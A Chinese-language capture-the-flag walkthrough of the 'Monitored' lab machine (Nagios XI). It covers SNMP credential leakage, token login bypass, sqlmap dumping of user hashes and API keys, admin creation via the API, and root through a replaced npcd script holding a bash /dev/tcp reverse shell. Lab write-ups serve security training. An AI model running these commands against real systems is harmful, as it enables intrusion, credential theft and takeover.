# 信息收集

## nmap

### TCP端口

```
nmap -sS -Pn -p- 10.10.11.248 --min-rate 9999 -oA nmap-ports
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-21 18:12 CST
Warning: 10.10.11.248 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.248
Host is up (0.87s latency).
Not shown: 65502 closed tcp ports (reset), 28 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
```

### UDP端口

```
nmap -sU -Pn -p- 10.10.11.248 --min-rate 9999 -oA nmap-ports

Not shown: 65426 open|filtered udp ports (no-response), 107 closed udp ports (port-unreach)

PORT    STATE SERVICE VERSION
123/udp open  ntp     NTP v4 (unsynchronized)
161/udp open  snmp
```

# 161端口

在日常监控中,经常会用到snmp服务,而snmpwalk命令则是测试系统各种信息最有效的方法

```
snmpwalk -v 2c -c public monitored.htb
```

在监控日志中查找以sudo权限运行的命令

知道SVC用户的密码



```
svc:XjH7VCehowpR1xZB
```

# 443端口

https://nagios.monitored.htb/nagiosxi/ 也是个登录页面，使用上面的账号密码登录失败，显示账号被封禁




查找[说明文档](https://assets.nagios.com/downloads/nagiosxi/docs/Automated_Host_Management.pdf)找到/api/v1的接口，使用feroxbuster扫到不同的接口

```
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1  -k -m GET POST
```



使用svc登录该接口可以得到svc用户的token



https://nagios.monitored.htb/nagiosxi/index.php?token=e468b08798ef73bc83d5fdd33aa3508fe4a72de8

登录界面加上token即可绕过检测

左下角有版本号



查找漏洞，发现sql注入





sql语句报错了，说明存在sql注入

## sqlmap

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 --dbs
```



```
 sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi --tables
```



```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi -T xi_users -C name,password,username,api_key --dump
```



```
name: Nagios Administrator 
password: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C 
username: nagiosadmin
api_key:IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

name:svc
password:$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK 
username:svc
api_key:2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK
```

## api_key

### system

在上述的说明文档中有/api/v1/system/status参数正好是api_key

替换为管理员的api_key



没有什么有用的信息，扫一下/api/v1/ 下的其他api和api_key拼接后的目录


```
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1  -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --threads 60
```



访问https://nagios.monitored.htb/nagiosxi/api/v1/system?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL时返回未知的api终点



对扫出来的目录在进行递归扫描，即扫描/api/v1/system的子目录

```
 feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1/system  -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --threads 60 --depth 3
```



#### /api/v1/system/info



#### /api/v1/system/status



#### /api/v1/system/user

如果是以GET方法访问则会显示用户信息



如果是以POST方法来访问，则会报创建用户失败的错误



### config

访问https://nagios.monitored.htb/nagiosxi/api/v1/config?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL时也返回未知的api终点

对扫出来的目录在进行递归扫描，即扫描/api/v1/config的子目录

```
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1/config  -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --threads 60
```



#### /api/v1/config/service

```
	
0	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Current Load"
use	
0	"local-service"
check_command	"check_local_load!5.0,4.0,3.0!10.0,6.0,4.0"
register	"1"
1	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Current Users"
use	
0	"local-service"
check_command	"check_local_users!20!50"
register	"1"
2	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"HTTP"
use	
0	"local-service"
check_command	"check_http"
register	"1"
3	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Memory Usage"
use	
0	"local-service"
check_command	"check_local_mem!30!20"
register	"1"
4	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"PING"
use	
0	"local-service"
check_command	"check_ping!100.0,20%!500.0,60%"
register	"1"
5	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Root Partition"
use	
0	"local-service"
check_command	"check_local_disk!20%!10%!/"
register	"1"
6	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"SSH"
use	
0	"local-service"
check_command	"check_ssh"
register	"1"
7	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Service Status - crond"
use	
0	"local-service"
check_command	"check_xi_service_status!crond!!!!!!"
register	"1"
8	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Service Status - httpd"
use	
0	"local-service"
check_command	"check_xi_service_status!httpd!!!!!!"
register	"1"
9	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Service Status - mysqld"
use	
0	"local-service"
check_command	"check_xi_service_status!mysqld!!!!!!"
register	"1"
10	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Swap Usage"
use	
0	"local-service"
check_command	"check_local_swap!50%!30%"
register	"1"
11	
config_name	"localhost"
host_name	
0	"localhost"
service_description	"Total Processes"
use	
0	"local-service"
check_command	"check_local_procs!400!500!RSZDT"
register	"1"
```


#### /api/v1/config/contact



### user



### object

/api/v1/objects/contact

```
	
recordcount	2
contact	
0	
object_id	"173"
contact_name	"svc"
instance_id	"1"
config_type	"1"
contact_object_id	"173"
alias	"svc"
email_address	"svc@monitored.htb"
pager_address	""
minimum_importance	"0"
host_timeperiod_object_id	"172"
service_timeperiod_object_id	"172"
host_notifications_enabled	"1"
service_notifications_enabled	"1"
can_submit_commands	"1"
notify_service_recovery	"1"
notify_service_warning	"1"
notify_service_unknown	"1"
notify_service_critical	"1"
notify_service_flapping	"1"
notify_service_downtime	"1"
notify_host_recovery	"1"
notify_host_down	"1"
notify_host_unreachable	"1"
notify_host_flapping	"1"
notify_host_downtime	"1"
is_active	"1"
1	
object_id	"154"
contact_name	"nagiosadmin"
instance_id	"1"
config_type	"1"
contact_object_id	"154"
alias	"Nagios Admin"
email_address	"admin@monitored.htb"
pager_address	""
minimum_importance	"0"
host_timeperiod_object_id	"148"
service_timeperiod_object_id	"148"
host_notifications_enabled	"1"
service_notifications_enabled	"1"
can_submit_commands	"1"
notify_service_recovery	"1"
notify_service_warning	"1"
notify_service_unknown	"1"
notify_service_critical	"1"
notify_service_flapping	"1"
notify_service_downtime	"1"
notify_host_recovery	"1"
notify_host_down	"1"
notify_host_unreachable	"1"
notify_host_flapping	"1"
notify_host_downtime	"1"
is_active	"1"
```

# 突破点

/api/v1/system/user以POST方法提交时是创建用户


post提交username,password,email,name时可以成功创建用户,但是该用户的权限为普通用户并不是管理员



https://www.exploit-db.com/exploits/44560

在这个漏洞中找到创建管理员的具体参数





登陆之后菜单栏有admin菜单，说明当前是管理员用户



在`configure->core config manager`可以查看命令和添加命令



添加反弹shell的命令

在用户界面下检查命令并且运行



即可成功得到shell



# 提权

sudo -l



nagios和npcd都可以重启，尝试替换为提权shell然后重启

查找npcd的位置



查看npcd是乱码，无法直接修改，再写一个npcd传上去

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.5/4444 0>&1
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```



